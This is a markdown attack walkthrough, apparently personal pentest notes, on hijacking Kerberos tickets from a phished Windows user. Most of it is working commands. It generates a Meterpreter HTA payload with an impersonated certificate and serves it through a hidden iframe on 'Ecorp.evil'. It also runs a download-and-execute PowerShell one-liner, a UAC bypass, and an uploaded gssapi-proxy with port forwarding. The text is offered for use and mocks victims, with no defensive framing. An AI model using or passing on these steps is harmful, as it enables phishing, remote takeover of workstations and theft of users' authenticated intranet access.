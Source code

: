 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The noted describe a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.  *We are looking for **intranet** locations that would include **Kerberos authentication**.*
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicous HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output format but in `msf5>` it is `-f`

The `-f` was for output filename but in `msf5>` it is `-o`


## 2. HTA File is Executed
**[+] Simple HTML page** to serve the HTA file just created.  Name it whatever but for here it will be refered to as `index.html`.

*Auto Execute* will only take place in IE and Edge browsers.

```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```

1. Serve `index.html` via any means, but the below works just fine.  
```python
python -m SimpleHTTPServer 8080
```
2. Send the victim a link or some phish.
3. Victim goes to `http://Ecorp.evil/index.html` cause they aren't paying attention to the domain name.
4. When `index.html` loads IF browser is IE or Edge it will execute the `patch.hta` file, and if everthing was set up properly, connect back to the `msf` session.  Check `jobs` and `sessions` to see if it worked.
5. [maybe] The victim may need to allow the file to execute.  But why not? They cliked on a **`Ecorp.evil`** link, right?


## 3. Meterpreter Session

Now you should have a meterperter session.  If not, what did you do wrong? Seriously.... I laid everything out for you.

Interact with the session: `sessions -i 1`
Start a Shell: `merterpreeter > shell`


## 4. Malicous Code Injection

### 4.a Get browser history

Github location: [Get-BrowserData.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Get-BrowserData.ps1)

To enumerate browser history & bookmarks, inject `Get-BrowserData` into the victim's memory.

Execute the following in the `shell` session started in #3 above.

```powershell
C:\Users\FrankCastle\> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1'); Get-BrowserData | Format-List"
```
> Check the `Data` feild and look for intranet locations.  They usually require kerberos authentication.

### 4.b Inject gssapi-proxy
 
Github location: [gssapi-proxy](https://github.com/mikkolehtisalo/gssapi-proxy)

1. Elevate privilages
```bash
msf exploit(handler) > use exploit/windows/local/bypassuac_eventvwr
msf exploit(bypassuac_eventvwr)> set payload windows/mdterpreter/reverse_https
msf exploit(bypassuac_eventvwr)> set LHOST [evil external IP]
msf exploit(bypassuac_eventvwr)> set LPORT 4443 #Use different port than setup for the session.
msf exploit(bypassuac_eventvwr)> set stagerverifysslcert true
msf exploit(bypassuac_eventvwr)> set HANDLERSSLCERT /location/to/pem.pem
msf exploit(bypassuac_eventvwr)> set session 1
msf exploit(bypassuac_eventvwr)> run
```

**NOTE** Use different port than setup for the session.

Now you should be in a `meterpreter` session.  Time to upload **gssapi-proxy**.

```bash
meterpreter> upload /path/to/gssapi-proxy /windows/system/gassapi-proxy.exe
meterpreter> portfwd add -r victim.ip -l 4444 -p 8080
meterpreter> portfwd list
```

Point your attacking browser to the proxy you just setup.

Activate **gssapi-proxy**

```bash
meterpreter> shell

c:\Windows\system32>gssapi-proxy.exe

CRTL+C and drop out of the session [y]???

```

The user's active kerberos tickets is now hijacked and lets the attacker browse to the identified intranet locations.
